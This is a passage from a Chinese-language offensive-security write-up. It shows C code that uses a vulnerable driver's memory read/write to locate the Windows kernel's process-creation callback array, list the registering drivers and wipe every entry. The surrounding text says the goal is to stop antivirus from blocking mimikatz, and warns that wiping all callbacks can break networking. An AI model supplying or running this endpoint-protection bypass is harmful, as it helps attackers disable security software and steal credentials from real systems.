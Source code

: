 ```plain

    INT64 PspCreateProcessNotifyRoutineAddress = PspSetCallbackssNotifyRoutineAddress + PspOffset + 7;

    return PspCreateProcessNotifyRoutineAddress;
}

int main()
{   
    Process = InitialDriver();
    if (!Process) return 0;
    INT64 PspCreateProcessNotifyRoutineAddress = GetPspCreateProcessNotifyRoutineArray();
    if (!PspCreateProcessNotifyRoutineAddress) {
        printf("Exit1\n");
        return 0;
    }
    printf("PspCreateProcessNotifyRoutineAddress: %I64x\n", PspCreateProcessNotifyRoutineAddress);

    INT64 buffer = 0;
    //展示所有注册进程回调的驱动
    printf("注册了进程回调的驱动基地址及其名称: \n----------------------------------------------------\n");
    for (int k = 0; k < 64; k++)
    {
        DriverReadMemery((VOID*)(PspCreateProcessNotifyRoutineAddress +(k * 8)), &buffer, 8);
        if (buffer == 0) continue;
        INT64 tmpaddr = ((INT64)buffer >> 4) << 4;
        DriverReadMemery((VOID*)(tmpaddr + 8), &buffer, 8);
        INT64 DriverCallBackFuncAddr = (INT64)buffer;
        DisplayDriverName(DriverCallBackFuncAddr);
    }
    printf("----------------------------------------------------\n以上不保证完全准确\n");

    //清除全部驱动的进程回调
    BYTE* data = (BYTE*)calloc(1, 1);
    for (int i = 0; i < 64; i++)
    {
        DriverReadMemery(data, (VOID*)(PspCreateProcessNotifyRoutineAddress + (i * 8)), 8);
    }
    printf("[Success] 进程回调清除完成\n");
    system("pause");
}
```

代码中的`DriverReadMemery()` 就是利用驱动进行读写的利用函数，具体实现要根据不同驱动情况来写。此外代码中最后清除的是全部驱动的进程回调，实际环境中需要根据驱动来进行清除，不然会导致系统某些功能出问题（目前发现清除全部会断网）。

以下面一个杀软的进程回调函数为例，一般情况下打开原生的mimikatz 必然被拦截。

